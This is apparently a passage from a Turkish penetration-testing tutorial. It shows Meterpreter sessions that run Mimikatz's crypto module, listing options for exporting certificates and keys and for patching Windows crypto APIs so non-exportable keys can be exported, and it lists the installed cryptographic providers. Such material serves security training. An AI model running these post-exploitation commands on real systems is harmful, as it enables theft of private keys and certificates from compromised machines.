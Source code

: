 
```bash
meterpreter > mimikatz_command -f crypto::
Module : 'crypto' identifié, mais commande '' introuvable

Description du module : Cryptographie et certificats
listProviders   - Liste les providers installés**)**
  listStores    - Liste les magasins système
listCertificates        - Liste les certificats
    listKeys    - Liste les conteneurs de clés
exportCertificates      - Exporte les certificats
  exportKeys    - Exporte les clés
    patchcng    - **[**experimental] Patch le gestionnaire de clés pour l'export de clés non exportable
   patchcapi    - [experimental] Patch la CryptoAPI courante pour l'export de clés non exportable
```



Bu seçeneklerden `listProviders` seçeneğini kullanalım.


```bash
meterpreter > mimikatz_command -f crypto::listProviders
Providers CryptoAPI :
        Gemplus GemSAFE Card CSP v1.0
        Infineon SICRYPT Base Smart Card CSP
        Microsoft Base Cryptographic Provider v1.0
        Microsoft Base DSS and Diffie-Hellman Cryptographic Provider
        Microsoft Base DSS Cryptographic Provider
        Microsoft Base Smart Card Crypto Provider
        Microsoft DH SChannel Cryptographic Provider
        Microsoft Enhanced Cryptographic Provider v1.0
        Microsoft Enhanced DSS and Diffie-Hellman Cryptographic Provider
        Microsoft Enhanced RSA and AES Cryptographic Provider (Prototype)
        Microsoft RSA SChannel Cryptographic Provider
        Microsoft Strong Cryptographic Provider
```



Yukarıdaki örneklerden göreceğiniz gibi, Mimikatz’a ait modüller ve bu modüllerin seçenekleri bulunuyor. Çok geniş ihtimaller dahilinde kullanabileceğiniz komutları tek tek deneyerek tecrübe kazanmanızı tavsiye ediyorum.
